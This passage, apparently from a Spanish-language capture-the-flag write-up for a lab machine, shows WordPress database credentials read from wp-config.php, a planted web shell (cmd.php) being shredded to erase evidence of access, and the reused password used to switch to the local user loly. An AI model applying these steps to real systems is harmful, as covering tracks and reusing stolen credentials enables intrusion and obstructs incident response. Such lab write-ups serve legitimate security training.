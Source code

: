 ```bash
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );
```

Vamos a borrar la evidencia con la que ganamos acceso

```bash
www-data@ubuntu:~/html/wordpress/wp-content/banners$ ls
cmd.php  xd.txt
www-data@ubuntu:~/html/wordpress/wp-content/banners$ shred -zun 10 -v cmd.php 
shred: cmd.php: pass 1/11 (random)...
shred: cmd.php: pass 2/11 (db6db6)...
shred: cmd.php: pass 3/11 (ffffff)...
shred: cmd.php: pass 4/11 (492492)...
shred: cmd.php: pass 5/11 (000000)...
shred: cmd.php: pass 6/11 (random)...
shred: cmd.php: pass 7/11 (6db6db)...
shred: cmd.php: pass 8/11 (aaaaaa)...
shred: cmd.php: pass 9/11 (555555)...
shred: cmd.php: pass 10/11 (random)...
shred: cmd.php: pass 11/11 (000000)...
shred: cmd.php: removing
shred: cmd.php: renamed to 0000000
shred: 0000000: renamed to 000000
shred: 000000: renamed to 00000
shred: 00000: renamed to 0000
shred: 0000: renamed to 000
shred: 000: renamed to 00
shred: 00: renamed to 0
shred: cmd.php: removed
www-data@ubuntu:~/html/wordpress/wp-content/banners$ 
```

Nos dan una contraseña vamos a probar si podemos migrar al usuario `loly`

`loly:lolyisabeautifulgirl`

```bash
www-data@ubuntu:/home/loly$ su loly
Password: 
loly@ubuntu:~$ whoami
loly
loly@ubuntu:~$ id
uid=1000(loly) gid=1000(loly) groups=1000(loly),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
loly@ubuntu:~$ 
```
